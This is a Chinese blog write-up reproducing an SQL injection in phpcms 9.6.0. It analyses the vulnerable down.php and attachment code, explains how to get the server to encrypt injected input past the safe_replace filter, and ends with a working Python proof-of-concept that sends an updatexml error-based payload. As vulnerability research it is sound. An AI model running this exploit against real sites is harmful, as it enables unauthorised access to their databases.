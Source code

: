 categories:
- cve复现
tags:
- cve复现
title: phpcmsv9.6.0SQL注入
---
# phpcmsv9.6.0SQL注入

## 利用条件

1. 开启wap
2. phpcms 版本小于等于9.6.0



## 漏洞复现

漏洞信息:

> 这个版本的 **SQL注入** 主要在于程序对解密后的数据没有进行过滤. 漏洞文件: **phpcms/modules/content/down.php** 。在其 **init** 方法中，从 **GET** 数据中获取了 **a_k** 的值 ,解密后直接变量覆盖,导致命令执行

```php
public function init() {
		$a_k = trim($_GET['a_k']);
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		parse_str($a_k);
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	
		...
	}
```

`$this->db->get_one(array('id'=>$id));	`跟进去

```php
final public function get_one($where = '', $data = '*', $order = '', $group = '') {
		if (is_array($where)) $where = $this->sqls($where);
		return $this->db->get_one($data, $this->table_name, $where, $order, $group);
	}
```



```php
final public function sqls($where, $font = ' AND ') {
		if (is_array($where)) {
			$sql = '';
			foreach ($where as $key=>$val) {
				$sql .= $sql ? " $font `$key` = '$val' " : " `$key` = '$val'";
			}
			return $sql;
		} else {
			return $where;
		}
	}
```



```php
public function get_one($data, $table, $where = '', $order = '', $group = '') {
		$where = $where == '' ? '' : ' WHERE '.$where;
		$order = $order == '' ? '' : ' ORDER BY '.$order;
		$group = $group == '' ? '' : ' GROUP BY '.$group;
		$limit = ' LIMIT 1';
		$field = explode( ',', $data);
		array_walk($field, array($this, 'add_special_char'));
		$data = implode(',', $field);

		$sql = 'SELECT '.$data.' FROM `'.$this->config['database'].'`.`'.$table.'`'.$where.$group.$order.$limit;
		$this->execute($sql);
		$res = $this->fetch_next();
		$this->free_result();
		return $res;
	}
```



没有对解密后的id进行任何过滤

接着要找一个能用相同密钥加密的地方,这样便无需暴露auth_key就能执行恶意sql语句

我们利用` set_cookie`来生成加密数据

`setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);`

查找调用`set_cookie`且值`$value`可控的位置



`phpcms/modules/attachment/attachments.php` 文件的 `swfupload_json` 方法有满足我们需要的代码。(菜鸡直接看别人找到的)

```php
public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```

`$arr['src'] = safe_replace(trim($_GET['src']));`,跟进`safe_replace`

```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```

虽然这里单引号被过滤了,但是前面是用`parse_str($a_k);`来恢复变量的,我们可以利用`safe_replace`能将某些字符替换为空格用url编码来绕过黑名单

但是在调用`swfupload_json` 前,它还会调用`__construct`方法

```php
function __construct() {
		pc_base::load_app_func('global');
		$this->upload_url = pc_base::load_config('system','upload_url');
		$this->upload_path = pc_base::load_config('system','upload_path');		
		$this->imgext = array('jpg','gif','png','bmp','jpeg');
		$this->userid = $_SESSION['userid'] ? $_SESSION['userid'] : (param::get_cookie('_userid') ? param::get_cookie('_userid') : sys_auth($_POST['userid_flash'],'DECODE'));
		$this->isadmin = $this->admin_username = $_SESSION['roleid'] ? 1 : 0;
		$this->groupid = param::get_cookie('_groupid') ? param::get_cookie('_groupid') : 8;
		//判断是否登录
		if(empty($this->userid)){
			showmessage(L('please_login','','member'));
		}
	}
```

我们需要用`sys_auth($_POST['userid_flash'],'DECODE')`来生成`$this->userid`,来绕过死亡exit

这次我们还需要找一个地方来生成`userid`,但是限制更少了,只要`$this->userid`不为空即可

 我们可以搜到 `phpcms/modules/wap/index.php` 文件，在该文件中 `$_GET['siteid']` 可控，并且可以通过 **cookie** 获得加密后的数据,虽然有intval来过滤

```php
function __construct() {		
		$this->db = pc_base::load_model('content_model');
		$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
		param::set_cookie('siteid',$this->siteid);	
		$this->wap_site = getcache('wap_site','wap');
		$this->types = getcache('wap_type','wap');
		$this->wap = $this->wap_site[$this->siteid];
		define('WAP_SITEURL', $this->wap['domain'] ? $this->wap['domain'].'index.php?' : APP_PATH.'index.php?m=wap&siteid='.$this->siteid);
		if($this->wap['status']!=1) exit(L('wap_close_status'));
	}
```

于是整个攻击链便完整了

先利用wap来获得`userid`

` http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=wap&siteid=1 `

`2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou`

再利用attachment来获得加密的恶意sql语句

```
http://127.0.0.1/cms/phpcms/9.6.0/index.php?m=attachment&c=attachments&a=swfupload_json&src=(看poc吧)
post:
userid_flash=2a8a6kid_pv1EoSGXugr-5BZDZWzDhaB7W3EtXou
```



## 检测脚本

```python
import re
import requests
import random

def poc(url,proxies={}):
    sess=requests.session()
    sess.get("%s/index.php?m=wap&siteid=1"%url)
    sess.proxies=proxies
    pre=list(sess.cookies.get_dict())[0][:5]+"_"
    userid=sess.cookies.get_dict()[pre+"siteid"]
    param={
        "m":"attachment",
        "c":"attachments",
        "a":"swfupload_json",
        "src":"=1&id=nobodyasdfsdsf%2;7-(updatexml(1,concat(0x7e,(select%2;0user()),0x7e),1))%23&m=1&modelid=1&catid=1&f=1&ss"
    }
    sess.post("%s/index.php"%url,params=param,data={"userid_flash":userid})
    a_k=sess.cookies.get_dict()[pre+"att_json"]
    result=sess.get("%s/index.php?m=content&c=down&a=init&a_k=%s"%(url,a_k)).text
    #print(userid,a_k)
    if "XPATH syntax error" in result:
        return True
    return False
    

#,{"http":"socks5://127.0.0.1:1080"}
print(poc("http://127.0.0.1/cms/phpcms/9.6.0/"))
```





## 参考

 [https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集](https://mochazz.github.io/2019/07/18/phpcms漏洞分析合集)

 